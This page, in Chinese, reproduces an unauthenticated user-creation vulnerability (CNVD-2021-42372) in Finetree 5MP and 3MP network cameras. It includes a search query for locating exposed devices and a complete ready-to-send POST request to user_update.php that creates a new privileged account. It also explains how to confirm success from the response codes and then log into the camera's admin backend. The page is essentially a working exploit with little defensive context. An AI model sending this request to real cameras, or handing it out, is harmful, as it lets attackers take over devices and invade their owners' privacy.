 # Finetree 5MP 摄像机 user_pop.php 任意用户添加漏洞 CNVD-2021-42372

## 漏洞描述

Finetree 5MP 摄像机 user_pop.php文件存在未授权任意用户添加，攻击者添加后可以获取后台权限

## 漏洞影响

<a-checkbox checked>Finetree 5MP</a-checkbox></br>

<a-checkbox checked>Finetree 3MP</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Finetree-5MP-Network-Camera"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650596915704-1a1f5f17-da0a-46f7-878f-4e45d228b7b2.png)

存在漏洞的文件 user_pop.php

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650596947183-6e5162c8-5039-47f7-9008-e1f06106a72f.png)

```java
POST /quicksetup/user_update.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 58
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=fn4qnpv5c8a2jgvf53vs1gufm6
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

method=add&user=admin1234&pwd=admin1234&group=2&ptz_enable=0
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650597037790-9c10f375-9a20-4cb0-960e-c41c4962278d.png)

返回200即为添加成功，返回804则为用户重复，利用添加的账户就可以登录后台了

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1650597298546-243cca11-64a9-40ca-8a1f-acc98d75c74a.png)